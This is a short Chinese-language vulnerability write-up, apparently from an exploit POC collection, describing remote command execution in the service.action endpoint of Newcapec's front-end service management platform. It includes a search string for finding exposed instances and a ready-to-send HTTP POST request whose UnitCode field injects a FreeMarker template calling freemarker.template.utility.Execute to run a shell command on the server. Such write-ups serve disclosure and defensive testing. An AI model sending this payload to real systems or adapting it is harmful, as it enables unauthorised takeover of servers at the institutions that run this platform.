

# 新开普 前置服务管理平台 service.action 远程命令执行漏洞

## 漏洞描述

新开普 前置服务管理平台 service.action 接口存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

<a-checkbox checked>新开普 前置服务管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="掌上校园服务管理平台"</a-checkbox></br>

## 漏洞复现

登陆页面


验证POC

```http
POST /service_transport/service.action HTTP/1.1
Host: 
Accept: */*
Content-Type: application/json

{"command":"GetFZinfo","UnitCode":"<#assign ex = \"freemarker.template.utility.Execute\"?new()>${ex(\"cmd /c echo Test > ./webapps/ROOT/Test.txt\")}"}
```



